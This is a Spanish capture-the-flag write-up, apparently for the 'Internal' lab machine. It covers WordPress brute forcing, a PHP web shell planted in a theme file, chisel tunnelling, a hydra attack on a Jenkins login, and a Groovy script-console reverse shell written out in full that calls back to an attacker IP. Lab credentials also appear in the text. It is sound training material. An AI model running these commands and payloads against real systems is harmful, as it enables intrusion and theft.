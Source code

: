 Hacemos el reconocimiento con nmap:
![[Pasted image 20230819113625.png]]
Y vemos lo que corre sobre el puerto 80:
![[Pasted image 20230819113722.png]]
Probamos en hacer fuzzing y vemos una serie de directorios, donde además nos encontramos con un wordpress:
![[Pasted image 20230819114104.png]]
Visualizamos la base de datos phpmyadmin:
![[Pasted image 20230819114138.png]]
Y si vamos al directorio blog vemos que no carga bien:
![[Pasted image 20230819113933.png]]
Por tanto vamos a añadir el internal.thm al /etc/hosts:
![[Pasted image 20230819114021.png]]
Y ya carga bien:
![[Pasted image 20230819114053.png]]
Ahora vamos a probar en hacer otro escaneo dentro de este wordpress con gobuster, donde encontramos varios directorios; y entre ellos un panel de login:
![[Pasted image 20230819114258.png]]
![[Pasted image 20230819114430.png]]
Con wpscan probamos en hacer una enumeración, donde vemos que nos encuentra el usuario admin:
```bash
wpscan --url http://internal.thm/blog --enumerate u,vp
```
![[Pasted image 20230819114644.png]]
Por tanto ahora vamos a hacer un ataque de fuerza bruta con wpscan de la siguiente forma:
```bash
wpscan --url http://internal.thm/blog --passwords /usr/share/wordlists/rockyou.txt --usernames admin
```
Y vemos que la contraseña es la siguiente:
```bash
admin:my2boys
```
![[Pasted image 20230819115042.png]]
Por tanto iniciamos sesión con estas credenciales:
![[Pasted image 20230819114917.png]]
Una vez dentro, en appearance y luegop en theme editor, vemos que podemos colar una webshell:
![[Pasted image 20230819114955.png]]
Podemos insertarlo en el 404 template:
![[Pasted image 20230819115022.png]]
Por tanto preparamos el php malicioso de pentest monkey poniendo la IP y puerto de atacante:
![[Pasted image 20230819115125.png]]
Y lo pegamos dentro del wordpress en el footer.php:
![[Pasted image 20230819115524.png]]
De tal forma que si accedemos a internal.thm/blog/ nos habremos enviado la reverse shell:
![[Pasted image 20230819115639.png]]
![[Pasted image 20230819115647.png]]
Intentamos acceder al usuario aubreanna pero no podemos:
![[Pasted image 20230819115736.png]]
Si miramos dentro del directorio /opt, vemos que tenemos las credenciales del usuario aubreanna:
```
aubreanna:bubb13guM!@#123
```
![[Pasted image 20230819115820.png]]
Probamos en acceder vía ssh y ya estamos dentro:
![[Pasted image 20230819115918.png]]
Una vez dentro, nos encontramos con un archivo que dice que está corriendo un jenkins en una IP por el puerto 8080:
![[Pasted image 20230819120025.png]]
Vemos que efectivamente existe esta IP:
![[Pasted image 20230819125930.png]]
Si queremos llegar a esta IP tenemos que usar chisel, por lo que lo compartimos con la máquina víctima:
![[Pasted image 20230819120141.png]]
![[Pasted image 20230819120150.png]]
En nuestra máquina atacante, nos ponemos en escucha con chisel por el puerto 8001, que es donde está corriendo el servicio jenkins en la máquina víctima:
```bash
./chisel server --reverse -p 8001
```
![[Pasted image 20230819120303.png]]
Y ahora en la máquina víctima quiero decir que el puerto 8080 de la máquina víctima se convierta en el 443 de mi máquina atacante; y todo esto enviándose por el puerto 8001 que es donde estará chisel escuchando:
```bash
./chisel client 10.8.100.91:8001 R:443:127.0.0.1:8080
```
![[Pasted image 20230819121805.png]]
![[Pasted image 20230819121812.png]]
Y ahora si accedemos al puerto 443 de mi máquina local, veremos que hay un jenkins corriendo:
![[Pasted image 20230819121850.png]]
Si queremos hacer un ataque de fuerza bruta, tendremos que interceptar la petición http con burp suite y atacar con hydra:
![[Pasted image 20230819122055.png]]
![[Pasted image 20230819122106.png]]
Por tanto estos parámetros los ponemos en el hydra, aunque primero debemos tomar nota del mensaje de error que sale en el jenkins para que hydra sepa cuando un intento es fallido:
![[Pasted image 20230819122803.png]]
Y ahora ya podemos lanzar el ataque con estos parámetros:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 443 -f http-post-form '/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password'
```
Y nos encuentra la contraseña:
![[Pasted image 20230819123039.png]]
```
admin:spongebob
```
Y estamos dentro:
![[Pasted image 20230819123124.png]]
En jenkins hay un apartado que es para ejecutar plugins que se llama script console, el cual está dentro de manage jenkins:
![[Pasted image 20230819123216.png]]
Y aquí una vez dentro, tenemos que leer el contenido del archivo que queramos pero en lenguaje java, el cual nos puede ayudar chatgpt:
![[Pasted image 20230819123423.png]]
Este es el código generado:
```bash
def filePath = '/etc/passwd'

try {
    def fileContents = new File(filePath).text
    println("Contenido del archivo:\n$fileContents")
} catch (Exception e) {
    println("Error al leer el archivo: ${e.message}")
}
```
Y vemos que nos lee el contenido:
![[Pasted image 20230819123452.png]]
Probamos ahora con la ejecución del comando ls, con la ayuda de chatgpt:
![[Pasted image 20230819124133.png]]
```bash
def command = 'ls'

try {
    def process = command.execute()
    process.waitFor()
    
    if (process.exitValue() == 0) {
        def output = process.text
        println("Salida del comando $command:\n$output")
    } else {
        def errorOutput = process.err.text
        println("Error al ejecutar el comando $command:\n$errorOutput")
    }
} catch (Exception e) {
    println("Error al ejecutar el comando $command: ${e.message}")
}
```
![[Pasted image 20230819124153.png]]
De todos modos si miramos por internet, en esta web tenemos unas instrucciones de un código para enviarnos la reverse shell:
```bash
https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6
```
![[Pasted image 20230819125513.png]]
```bash
String host="10.8.100.91";
int port=444;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Lo ejecutamos y recibimos la reverse shell:
![[Pasted image 20230819125549.png]]
![[Pasted image 20230819125559.png]]
Y vemos que efectivamente estamos dentro del jenkins:
![[Pasted image 20230819125625.png]]
Y dentro de /opt nos encontramos con una nota:
![[Pasted image 20230819125703.png]]
Donde tenemos una contraseña de root:
```
root:tr0ub13guM!@#123
```
Y podemos entrar vía ssh como root a la máquina víctima:
![[Pasted image 20230819125824.png]]
